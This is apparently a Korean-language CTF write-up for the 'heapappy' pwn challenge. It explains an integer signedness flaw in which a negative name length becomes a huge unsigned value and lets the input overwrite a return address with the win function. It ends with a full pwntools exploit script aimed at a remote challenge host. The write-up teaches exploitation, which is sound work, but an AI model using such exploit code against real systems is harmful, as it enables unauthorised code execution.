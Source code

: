 ```yaml
---
title: 'CCE - heapappy'
published: 2025-08-24
author: 'onLeaf'
description: 'heapappy writeup'
image: 'https://cdn.discordapp.com/avatars/1001487706267844608/04764b047c96ad414755cb889b85c36c.webp?size=80'
tags: ['Pwn','cce','sad']
category: 'onLeaf'
draft: false
---
```

#힙하다.

파일을 분석해보면 5가지의 큰 함수가 있다. 

그중 adopt 함수 내부를 보면 입력할 길이를 받고 input 함수를 호출하는 코드가 있다. 
근데 입력할 길이가 올바른지 판단하는 조건에서 입력이 24보다 크면 너무 길다고 출력하는 코드가 있지만 음수를 입력받았을때는 판단하지 않고 그냥 input으로 보내버린다. 
이 점이 의심스러워 input을 뜯어보니 전에 길이를 입력받을때엔 int로 선언되어있던 v1이 input함수로 넘어가면서 unsigned_int로 바뀌었다. 
이 점을 이용해 -99999같은 값을 입력할 길이에 넣어버리면 unsigned_int에 의해 매우 큰 값으로 바뀌고 여기에 win 함수의 주소를 넣어 ret을 덮고

포인터를 사용하는 perform_ritual 함수를 호출하면 
쉘을 딸 수 있다.


```python
from pwn import *

#p = process('./prob')
p = remote('3.38.164.12', 3030)
e = ELF('./prob')

win = e.symbols['win']

p.sendlineafter('Choice: ',b'1')

p.sendlineafter('Name length: ',b'-99999')

p.sendlineafter('Name bytes: ',b'A'*32 + p64(win))

p.sendlineafter('Choice: ',b'3')

p.interactive()
```
